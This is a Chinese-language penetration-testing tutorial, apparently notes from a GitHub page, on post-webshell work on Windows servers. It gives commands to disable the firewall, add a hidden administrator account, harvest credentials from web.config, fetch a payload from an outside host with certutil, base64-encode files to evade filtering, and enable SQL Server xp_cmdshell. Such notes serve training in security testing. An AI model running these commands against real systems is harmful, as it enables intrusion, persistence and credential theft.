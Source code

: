 # 内网渗透
## 渗透测试的流程
在对内网进行渗透测试前，我们需要获取权限，依次为后台权限=》webshell权限=》服务器权限；大多数情况下是获取到webshell权限，随后再进行提权操作获取服务器权限。
## webshell
#### webshell的定义：对web应用中的文件拥有增删改查的功能。
#### webshell权限
webshell的权限根据不同的系统有的不同的权限，有的时候是系统权限，有的时候是管理员权限，有的时候是普通用户权限。
- Windows
1. system         系统权限      （system权限是最高权限）
2. Administrator  管理员权限
3. user           普通权限
- Linux
1. root           管理员权限
2. user           普通权限

##### 内网需要对计算机不同的系统有着一定的操作能力。
## Windows系统基础篇
- 在Windows服务器中默认只允许拥有管理员权限的用户才能远程登陆服务器中。
- Windows的服务器系统版本（win2000,win2003,win2008,win2012,win2016,win2019,win2022）,都有共同的默认账号administrator和guest，且guest账号默认是禁用的。
- Windows默认远程控制（RDP）端口为3389，服务（TermService）
#### 如何通过命令行锁定端口号
有的时候远程的端口会被管理员修改，我们可以通过命令行来对端口进行锁定，步骤如下：
1. 使用`tasklist /svc`找到TermService服务对应的PID号
2. `netstat -ano`找到对应PID开放的端口号

#### 连接不上3389端口的原因
- 对方服务器只映射了web端口到外网，未映射3389端口到外网，所以外网无法直接访问内网的3389，导致无法连接；可通过ipconfig查看系统是公网IP还是公网IP。
- 服务器自身的系统防火墙入网规则未允许3389入网请求。解决方法：使用dos命令关闭防火墙，简单暴力。

## doc命令篇
```
netsh firewall set opmode disable 关闭防火墙
netsh firewall set opmode mode=enable 开启防火墙
whoami /priv  查看当前权限列表
net user 查看用户列表
net user aaa 查看用户aaa
net user aaa 123  修改用户aaa密码为123
net user aaa /del 删除用户aaa
net user aaa 123 /add 添加用户aaa并且密码为123
net user aaa /active:yes  激活用户aaa
net user aaa /active:no   禁用用户aaa
net localgroup Administrators aaa /add 用户aaa添加到管理员组
net localgroup Administrators aaa /del 将用户aaa从管理员组移除
net localgroup Administrators  查看管理员组有哪些用户
tasklist /svc 查看进程所对应的服务名和PID
tasklist /v 查看进程对应启动的用户名
netstat -ano 查看开放的端口
chdir 查看当前路径
```
## 拿到webshell后如何进行信息收集
常见的连接webshell的工具，如：
1. 冰蝎
2. 蚁剑
3. 菜刀
4. 哥斯拉（推荐）https://github.com/808Mak1r/GodzillaSource

连接好webshell后收集数据库信息，然后连接数据库。Windows上搭建的服务器可以查看web.config，当此文件没有我们要的信息时，也可以查看其他带有.config的文件，尽量收集更多的信息。

- web.config可能收集到的信息
1. 数据库连接信息
2. 邮件连接信息
3. 域控管理员连接信息
4. 后台账号密码
5. 短信发送平台连接信息
6. API接口平台
- 如何寻找数据库信息
通过查找文件，根据文件不同的头部信息引用依次查询，如了解框架会更快得找到数据库信息。
## Windows上下载文件到服务器有哪些方法？
- certutil命令(该命令在win2000上不支持)
`certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx`
##### 此命令的其他功能
```
certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx C:\Windows\Temp\1.aspx 下载文件到制定路径下

certutil 还可以进行base64编码，可通过此防范绕过防火墙，步骤如下

首先先将文件进行编码 certutil -encode 1.aspx 1.txt,这样我们就将1.aspx进行了base64编码并存储到了1.txt文件中，随后我们在解码，certutil -decode 1.txt 2.aspx,将编码后的文件再解码，就可以执行文件了。


```

## 权限提升
权限提升分为两类，一类是系统漏洞提权，一类是不正确配置提权，也称第三方提权（sql server提权）。
- sql server 提权操作
```
第一种
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go

第二种

sp_configure 'show advanced options',1
RECONFIGURE WITH OVERRIDE
go
sp_configure 'xp_cmdshell',1
RECONFIGURE WITH OVERRIDE
go

```










